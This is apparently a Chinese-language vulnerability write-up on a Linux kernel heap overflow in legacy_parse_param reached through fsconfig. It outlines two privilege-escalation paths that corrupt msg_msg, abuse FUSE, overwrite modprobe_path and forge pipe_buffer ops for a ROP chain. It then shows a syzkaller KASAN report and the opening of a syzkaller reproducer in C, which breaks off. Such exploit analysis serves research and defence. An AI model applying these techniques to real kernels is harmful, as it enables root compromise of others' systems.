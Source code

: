 **保护机制**：KASLR / SMEP / SMAP / KPTI

**利用总结**：

方法一：两次触发漏洞。缺点是一般普通用户的话，FUSE不一定可用。

- （1）先利用溢出修改 `msg_msg->m_ts` 泄露内核基址（越界读取 kmalloc-32 中的 `seq_operations` 结构）；
- （2）再利用FUSE 用户页错误处理 和溢出篡改 `msg_msg->next` 实现任意地址写，篡改 `modprobe_path` 提权。

方法二：缺点是需要三次触发漏洞，堆喷不稳定。

- （1）先利用溢出修改 `msg_msg->m_ts` 泄露内核基址（越界读取 kmalloc-32 中的 `seq_operations` 结构）；
- （2）泄露堆地址：构造queue1中 ` kmalloc-4k <-> kmalloc-64`，queue2中 `kmalloc-1k <-> kmalloc-64 <-> kmalloc-512` 。触发溢出漏洞，改大` kmalloc-4k` 中的  `msg_msg->m_ts` 来越界读取 `msg->m_list.next & prev`，也即 kmalloc-1024 和 kmalloc-512 的地址；
  - `pipe_buffer` 占据 kmalloc-1024；
  - kmalloc-512 上布置 stack pivot gadget （伪造 `pipe_buffer->ops` 函数表）；
- （3）触发溢出修改 `msg_msg->next = &kmalloc-1024 - 0x30`，构造任意释放，利用 msg_msg 堆喷伪造 `pipe_buffer->ops` 并布置 ROP chain 提权。 



## 1. 漏洞发现

**syzkaller报错**：通过syzkaller发现一个报错。

```c
BUG: KASAN: slab-out-of-bounds in legacy_parse_param+0x450/0x640 fs/fs_context.c:569
Write of size 1 at addr ffff88802d7d9000 by task syz-executor.12/386100

CPU: 3 PID: 386100 Comm: syz-executor.12 Not tainted 5.14.0 #1
Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS 1.13.0-1ubuntu1.1 04/01/2014
Call Trace:
 legacy_parse_param+0x450/0x640 fs/fs_context.c:569
 vfs_parse_fs_param+0x1fd/0x390 fs/fs_context.c:146
 vfs_fsconfig_locked+0x177/0x340 fs/fsopen.c:265
 __do_sys_fsconfig fs/fsopen.c:439 [inline]
[ ... ]
The buggy address belongs to the object at ffff88802d7d8000
 which belongs to the cache kmalloc-4k of size 4096
The buggy address is located 0 bytes to the right of
 4096-byte region [ffff88802d7d8000, ffff88802d7d9000)
```

漏洞对象位于 kmalloc-4096，`legacy_parse_param()` 函数导致OOB write，syzkaller生成了一个poC：

```c
#define _GNU_SOURCE 

#include <endian.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/syscall.h>
#include <sys/types.h>
#include <unistd.h>
#ifndef __NR_fsconfig
#define __NR_fsconfig 431
#endif
#ifndef __NR_fsopen
#define __NR_fsopen 430
#endif
uint64_t r[1] = {0xffffffffffffffff};
int main(void) {
	syscall(__NR_mmap, 0x1ffff000ul, 0x1000ul, 0ul, 0x32ul, -1, 0ul);
	syscall(__NR_mmap, 0x20000000ul, 0x1000000ul, 7ul, 0x32ul, -1, 0ul);
	syscall(__NR_mmap, 0x21000000ul, 0x1000ul, 0ul, 0x32ul, -1, 0ul);
```